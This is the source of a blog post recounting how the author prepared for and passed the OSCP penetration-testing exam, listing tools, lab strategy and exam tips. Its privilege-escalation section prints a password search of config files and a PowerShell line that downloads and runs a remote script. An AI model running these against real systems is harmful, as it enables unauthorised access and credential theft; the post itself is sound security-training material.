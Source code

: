 :slug: oscp-journey/
:date: 2019-12-04
:category: opinions
:subtitle: The meaning of Try Harder
:tags: challenge, ethical hacking, pentesting, security, training, exploit
:image: cover.png
:alt: Man sitting facing laptop. Photo by Clint Patterson on Unsplash: https://unsplash.com/photos/dYEuFB8KQJk
:description: The OSCP exam is one of the hardest certifications for pentesters out there. Many people take this exam to test their pentesting abilities and most of them don’t pass it in the first attempt. Here I will show you how I prepared myself and how you can obtain the certification too.
:keywords: Bussiness, Information, Security, Protection, Hacking, Best Practices
:author: Jonathan Armas
:writer: johna
:name: Jonathan Armas
:about1: Systems Engineer, OSCP - Security+
:about2: "Be formless, shapeless like water" Bruce Lee

= How to pass the OSCP

My background before taking the exam
was two years of work at +Fluid Attacks+ as a penetration tester,
this means that I already had the know-how of a penetration test
and how to build a technical report of my findings.
However, if you don’t have the experience on the field
or you are starting just now,
this post will help you pass your exam.

The most important phase on a penetration test is scanning.
Here you will use your tools to get information about your target
like operating system, open ports, services running on those ports,
their versions, whether they have public vulnerabilities or not
and whether there is a public exploit for those vulnerabilities.
Since +metasploit+ is restricted to only *ONE* machine
(this includes the auxiliary modules too)
you need to make yourself comfortable with tools such as:

* link:https://nmap.org/[Nmap]
* link:https://tools.kali.org/web-applications/dirbuster[Dirbuster]
* link:https://tools.kali.org/information-gathering/nikto[Nikto]
* link:https://tools.kali.org/web-applications/gobuster[Gobuster]
* link:https://github.com/maurosoria/dirsearch[Dirsearch]
* link:https://tools.kali.org/information-gathering/enum4linux[enum4linux]
* link:https://github.com/offensive-security/exploitdb/blob/master/searchsploit[searchsploit]


The only way to do this is by using them continuously
until you develop a solid enumeration strategy.
To help with this, there are services like link:https://www.hackthebox.eu/[hackthebox] and link:https://www.vulnhub.com/[vulnhub],
where you will find vulnerable machines to test your skills.

image::hackthebox.png[owned-machines]

Furthermore, there you can practice the _gaining access_ phase
and your privilege escalation strategies with multiple operating systems
and vulnerabilities that resemble the ones in real life scenarios.
You would be surprised by how many times
I’ve encountered a vulnerability on +hackthebox+ first
and then on a real life service.
The tools and resources that I got the most from for privilege escalation were:

* link:https://github.com/rebootuser/LinEnum[linenum]
* link:https://github.com/AonCyberLabs/Windows-Exploit-Suggester[windows exploit suggester]
* link:https://github.com/offensive-security/exploitdb/blob/master/searchsploit[searchsploit]
* link:https://github.com/411Hall/JAWS[JAWS]
* link:https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc[PowerUp]
* link:https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/[g0tmilk Linux privesc blog]
* link:https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/[absolomb Windows privesc blog]

I recommend to hack all the live machines that you can
without any help and get some points on the platform.
With this you will get used to the tools
and strengthen your mentality in order to take the exam.
If you can’t hack a machine and it gets removed,
you can check the walkthrough by link:https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA[Ippsec]
and learn new things.
You can learn stuff from these videos
even for machines you did root.
Do this for at least one month or, if you have zero experience, two months.

== Attacking the lab

I had a month of lab access, so the approach that I took
to the course and the lab was splitting them by days,
one to concentrate on the guide
and take notes of interesting things that I didn't know
and a day for attacking the lab machines.

When you are working on the machines,
try to also work on your time management;
do not spend too much time on one machine when you can try another one,
as this skill is very important when you are taking your exam
because things can go south.

Before your lab access ends,
be sure to fully understand how to do a +buffer overflow+,
take notes of every step, copy all the commands that you need
and also how to get the +return address+.
This will help greatly in your exam.


== Post lab

Here you want to gather the most information
about the last two steps and put it to a test.
We are going back to +hackthebox+
but instead of doing the active machines
we are going to do the ones from link:https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0[this list]
(there are also some from +vulnhub+).

image::url-oscp.png[oscp-like-machines]

Try to conquer those machines
without the aid of walkthroughs,
and when you finish one, you will look at these
to check whether there is another way in and practice it.

The day before, I did nothing.
Your body and mind need to rest
and you should not try to cram before the test.
Eat your favourite foods (pancakes, pizza and sushi),
enjoy yourself with a well deserved dessert
and watch movies and series that you left behind while studying.


== The exam

The task is to gain administrative access
to the machines in the network.
There are 5 machines,
each is worth a certain number of points if you complete it
and you need at least +70+ points to pass the exam.
The machine points are distributed as:

* 25 points Buffer Overflow
* 25 points machine
* Two 20 points machines
* 10 points machine

I started with the +25 points BoF+ machine
while I scanned all the other ones,
this because I knew that I could follow the guide step by step
and get the points.
My scanning strategy was to run +nmap+ with these options:

.nmap with options
[source,bash]
----
$ nmap ip.ip.ip.ip -A -p- --min-rate=5000 --max-retries=5 -o tcp.txt
----

Also, I pinged the machine
in order to view its operative system,
if the +TTL+ (Time to Live) is +64+ then it is a +Linux+ machine
and if it is +128+ then it’s a +Windows+ machine.
When the port scan finished I checked every web service
and used a web crawler like +dirbuster+ or +dirsearch+.

After finishing the +BoF+ machine,
I could start hacking the machines
with all the information that I’d collected.
I ended up on rabbit holes
trying to gain admin privileges on the 25-pointer machine,
soon enough I decided to switch to both 20-pointer
and finally the 10-pointer machine.

For privilege escalation
I first checked the operative system version and kernel,
this can be done by running:

[source,bash]
----
$ uname -a #linux
> systeminfo #windows
----

If it was +Linux+ I checked for +sudo+ rights,
running processes and for +SUID+ executables.
There is a tool named +linenum+ but it’s too verbose
and I like to search for things manually:

[source,bash]
----
$ sudo -l
$ ps -aux
$ find / -perm -u=s -type f 2>/dev/null
----

If it was +Windows+, I checked for the +Groups.xml+ file
(usually it has administrative user and password there),
installed software and tried to use +powershell+
to run +Windows+ exploits.
When it comes to +Windows+, most of the time the way of escalating privileges
is through a vulnerability in the +OS+ version
or in an installed program version.

[source,bash]
----
> findstr /si password *.xml *.ini *.txt *.config 2>nul
> IEX(New-Object Net.WebClient).downloadString('http://server/script.ps1')
----


I finished my test in less than 10 hours
with 4 admins and 1 user, this was a little more than +75+ points.
The mistake that I made
was to be lazy with my screenshots
so I needed to redo all the machines
to get all of my evidences (*DON’T DO THIS*).
The next day I did my technical documentation,
the advice here is to put everything that you did
from the _scanning_ phase up to the _privilege escalation_ phase.
Also, if you modified an exploit (even if is only one line)
put it on the report and mark what you modified.
Then it was only a matter of waiting for the response.

image::oscp-win.png[oscp-win]

== What you can take

The +OSCP+ is surely a hard certification but it’s not impossible.
The steps previous to the lab are going to help you
to get the most out of the course
and to have your own routine when it comes to doing a penetration test.
The _enumeration_ and _scanning_ phases
are the most important ones in the whole process
as you can spend hours going through rabbit holes
if you do not do this step properly,
so be sure that you dominate yours.
A mental toughness is needed to pass this test
so be prepared to think quickly and creatively,
daisy chaining vulnerabilities and rest when it is needed.
The discord groups of +hackthebox+ and +OFFSEC+ are at your disposal
to solve your questions or give you hints where you need them, so try harder.
